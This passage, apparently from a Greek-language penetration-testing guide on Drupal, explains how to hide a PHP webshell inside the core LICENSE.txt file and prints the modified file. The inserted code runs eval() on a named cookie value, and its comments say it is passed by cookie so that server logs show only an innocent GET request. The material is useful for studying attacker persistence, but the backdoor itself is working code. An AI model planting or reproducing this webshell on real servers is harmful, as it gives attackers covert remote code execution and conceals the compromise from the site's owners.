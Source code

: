 Επειδή μόλις το Webshell (που θα ονομάσουμε LICENSE.txt) τοποθετηθεί στον Web server, μπορούμε να μεταδώσουμε τις εντολές μας μέσω `$_COOKIE` και στα αρχεία καταγραφής του Web server, αυτό θα εμφανίζεται ως ένα νόμιμο GET αίτημα σε ένα αρχείο κειμένου.

Γιατί να ονομάσουμε το Webshell μας LICENSE.txt;

Απλά επειδή αν πάρουμε το παρακάτω αρχείο, για παράδειγμα [core/LICENSE.txt](https://github.com/drupal/drupal/blob/11.x/core/LICENSE.txt) (το οποίο είναι ήδη παρόν στον πυρήνα του Drupal), έχουμε ένα αρχείο 339 γραμμών και 17.6 KB σε μέγεθος, το οποίο είναι τέλειο για να προσθέσουμε ένα μικρό απόσπασμα κώδικα PHP στη μέση (καθώς το αρχείο είναι αρκετά μεγάλο).

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Αρχείο: Διορθωμένο LICENSE.txt
```txt

...

this License, you may choose any version ever published by the Free Software
Foundation.

<?php

# We inject our payload into the cookies so that in the logs of the compromised
# server it shows up as having been requested via the GET method, in order to
# avoid raising suspicions.
if (isset($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
if (!empty($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
eval($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"]);
} else {
phpinfo();
}
}

?>

10. If you wish to incorporate parts of the Program into other free
programs whose distribution conditions are different, write to the author

...
```